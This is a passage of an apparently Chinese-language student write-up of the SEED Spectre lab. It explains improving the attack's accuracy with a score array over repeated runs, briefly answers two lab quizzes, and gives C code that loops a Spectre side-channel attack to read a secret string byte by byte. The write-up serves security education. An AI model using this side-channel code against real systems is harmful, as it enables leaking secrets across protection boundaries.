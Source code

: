 ![](https://cdn.jsdelivr.net/gh/LaPhilosophie/image/img/20230226134812.png)

运行两次都得到了结果，秘密信息的第一个字母是S

# Improve the Attack Accuracy

由于缓存中的噪声的存在，我们的攻击结果有可能不准确

- CPU 有时会在缓存中加载额外的值，以期在以后某个时间点使用它
- 阈值不是很准确

为了提高精准度，可以使用统计技术。其思想是创建一个大小为256的得分数组，每个可能的秘密值对应一个元素。然后我们进行多次攻击。每次，如果我们的攻击程序说 k 是秘密(这个结果可能是错误的) ，我们把1加到分数[ k ]上。在多次运行攻击之后，我们使用得分最高的值 k 作为对秘密的最终估计。这将产生比基于单次运行的估计更可靠的估计

循环1000次，每次都会有一个最大hit值对应的结果，使用了一个全局静态数组score统计这1000次循环中出现最多的结果

quiz1：

You may observe that when running the code above, the one with the highest score is very likely to be
scores[0]. Please figure out why, and fix the code above, so the actual secret value (which is not
zero) will be printed out

main中1000次for循环都会调用`spectreAttack(index_beyond);`语句，从而触发`s = restrictedAccess(index_beyond);`语句的执行，此时restrictedAccess函数的返回值将会是0，而这个0值是没有被tlb刷新的

可以直接将score[0]赋值为0

quiz2：

Line 1 seems useless, but from our experience on SEED Ubuntu 20.04, without this line, the attack
will not work. On the SEED Ubuntu 16.04 VM, there is no need for this line. We have not figured out
the exact reason yet, so if you can, your instructor will likely give you bonus points. Please run the
program with and without this line, and describe your observations.

注释之后再16虚拟机中运行正常

# Steal the Entire Secret String

加一层循环即可

```c
for(int j=0;j<=20;j++)
{
  flushSideChannel();
  for(i=0;i<256; i++) scores[i]=0; 
  
  size_t index_beyond = (size_t)(secret - (char*)buffer);

  for (i = 0; i < 1000; i++) {
    printf("*****\n");  // This seemly "useless" line is necessary for the attack to succeed
    spectreAttack(index_beyond);
    usleep(10);
    reloadSideChannelImproved();
  }

  int max = 0;
  for (i = 0; i < 256; i++){
    if(scores[max] < scores[i]) max = i;
  }

  printf("Reading secret value at index %ld\n", index_beyond);
  printf("The secret value is %d(%c)\n", max, max);
  printf("The number of hits is %d\n", scores[max]);
}
```
